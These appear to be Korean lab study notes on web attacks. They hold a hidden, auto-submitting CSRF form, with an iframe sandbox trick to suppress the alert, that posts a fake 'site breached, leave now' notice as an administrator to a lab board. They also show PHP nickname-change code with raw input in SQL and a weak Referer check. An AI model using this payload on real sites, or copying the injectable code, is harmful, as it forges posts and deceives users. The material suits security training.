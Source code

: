 

#### 정답



```
<iframe name="a" width="0" height="0"></iframe>
<form target="a" id="exam" method="post" action="http://172.16.10.20/board/board_write_ok.php" style="display:none">
<input type="text" name="name" value="관리자">
<input type="password" name="pw" value="h0t$ix">
<input type="text" name="email" value="admin@kh.com">
<input type="text" name="sub" value="사이트 폐쇄">
<input type="radio" name="tag" value="T">
<textarea name="cont" cols="60" rows="10" style="border:0px;">우리 사이트의 개인정보가 털렸으니 하루 빨리 탈퇴 바랍니다.</textarea>
</form>
<script>document.getElementById("exam").submit();</script>
```

근데 이렇게만 하면 글 등록했다고 알람이 뜬다.

alert 해제는 샌드박스를 이용하라

```
<iframe name="a" width="0" height="0" sandbox="allow-scripts"></iframe>
<form target="a" id="exam" method="post" action="http://172.16.10.20/board/board_write_ok.php" style="display:none">
<input type="text" name="name" value="관리자">
<input type="password" name="pw" value="h0t$ix">
<input type="text" name="email" value="admin@kh.com">
<input type="text" name="sub" value="사이트 폐쇄">
<input type="radio" name="tag" value="T">
<textarea name="cont" cols="60" rows="10" style="border:0px;">우리 사이트의 개인정보가 털렸으니 하루 빨리 탈퇴 바랍니다.</textarea>
</form>
<script>document.getElementById("exam").submit();</script>
```



### 닉네임 

-> Referer 이용

[root@Linux-04 board]# cd ../member/
[root@Linux-04 member]# vim member_nick_change.php

```
 1 <?php
  2                 session_start();
  3                 $nick = $_GET[nick];
  4                 if(!$nick){
  5                         echo "<script>alert('닉네임을 입력하세요');
  6                                 history.back();</script>";
  7                         exit;
  8                 }
  9 
 10                 //Referer 삭제된 경우
 11                 if($_SERVER["HTTP_REFERER"] == "")
 12                 {
 13                         echo "<script>alert('요청하신 경로가 올바르지 않습니다.');
 14                                 history.back();</script>";
 15                         exit;
 16                 }
 17 
 18                 require "../dbconn.php";
 19                 $strSQL="update member set nickname='$nick' where u_id='$_SESSION[user_id]'";
 20                 $rs = mysql_query($strSQL);
```